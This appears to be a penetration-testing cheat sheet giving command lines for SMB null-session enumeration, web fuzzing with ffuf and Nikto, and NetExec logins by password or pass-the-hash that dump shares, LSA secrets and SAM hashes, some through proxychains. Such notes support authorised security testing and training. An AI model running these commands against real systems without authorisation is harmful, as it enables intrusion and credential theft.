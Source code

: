 ### SMB Null Sessions

* SMBHunt

```
git clone https://github.com/Raikia/SMBCrunch.git && cd SMBCrunch
sudo ./smbhunt.pl -i ../445.txt
```

* NMap

```
sudo nmap -p 445 --script smb-enum-shares.nse,smb-enum-users.nse -iL targets.txt
```

View Null sessions with

```
sudo smbclient -L //target/share -U ""
```

Find password policy with

```
sudo nxc smb ip -u '' -p '' --pass-pol
```

### If HTTP/HTTPs services are running:

* [Ffuf](https://github.com/ffuf/ffuf)

```bash
sudo ffuf -recursion -mc all -ac -c -e https://[domain]/FUZZ -w [wordlist]
sudo ffuf -recursion -mc all -ac -c -e .htm,.shtml,.php,.html,.js,.txt,.zip,.bak,.asp,.aspx,.xml -w [wordlist] -u https://[domain]/FUZZ -fc 400,401,403,404,406,500,502 > [domain].txt
```

* [Nikto](https://github.com/sullo/nikto)

```bash
sudo nikto -h [URL]
```

* View pages, look at `/robots.txt`, `/wp-admin.php`, `/wp-login.php`, and page-source

### NetExec

* Relay:

```bash
sudo proxychains4 netexec smb ip -u user -p 'password' --shares / --lsa / --sam
```

* Hash:

```bash
sudo proxychains4 netexec smb ip -u user -H 'HASH' --shares / --lsa / --sam
```

* Password

```bash
sudo netexec smb ip -u user -p 'password' --shares / --lsa / --sam
```
